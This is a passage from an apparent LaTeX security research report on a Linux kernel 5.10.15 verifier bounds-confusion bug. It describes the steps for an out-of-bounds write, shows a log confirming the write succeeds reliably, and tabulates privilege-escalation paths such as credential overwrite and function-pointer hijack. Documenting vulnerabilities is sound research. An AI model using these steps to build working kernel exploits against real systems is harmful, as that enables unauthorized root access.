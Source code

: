 \subsection{Milestone 3: OOB Write + Escalation Analysis}

\textbf{Objective}
Extend the bounds confusion to write operations and analyze the feasibility of privilege escalation.

\textbf{Approach}
The same bounds confusion used for reads also works for writes:
\begin{enumerate}
    \item Obtain the confused index \texttt{R2} (verifier: 0, runtime: OOB offset)
    \item Compute \texttt{R7 = map\_ptr + R2}
    \item Write a marker value: \texttt{*(R7) = 0xDEAD1337CAFE4242}
    \item Read back the written value to confirm the OOB write
    \item Run a separate program to independently verify persistence
    \item Repeat across 5 rounds for reliability testing
\end{enumerate}

\textbf{Results}
\begin{lstlisting}[style=log,caption={Milestone 3 output on kernel 5.10.15}]
Part 1: OOB Write
  Write program read-back: 0xdead1337cafe4242  <- marker confirmed
  Independent read:        0xdead1337cafe4242  <- OOB WRITE CONFIRMED

Part 2: Reliability test (5 rounds)
  Run 1/5: PASS
  Run 2/5: PASS
  ...
  Reliability: 5/5 successful (100%)
\end{lstlisting}

\textbf{Escalation Analysis}

The combined OOB read (Milestone 2) and OOB write (Milestone 3) primitives provide:

\begin{table}[H]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Escalation Path} & \textbf{Feasibility} & \textbf{Notes} \\
\midrule
Corrupt adjacent map ops & Medium & Needs KASLR bypass (from M2) \\
Corrupt slab metadata & Hard & Heap layout dependent \\
Overwrite cred structure & Hard & Requires heap spray \\
Hijack function pointer & Medium & Chain M2 leak + M3 write \\
\bottomrule
\end{tabular}
\caption{Privilege escalation feasibility analysis}
\end{table}

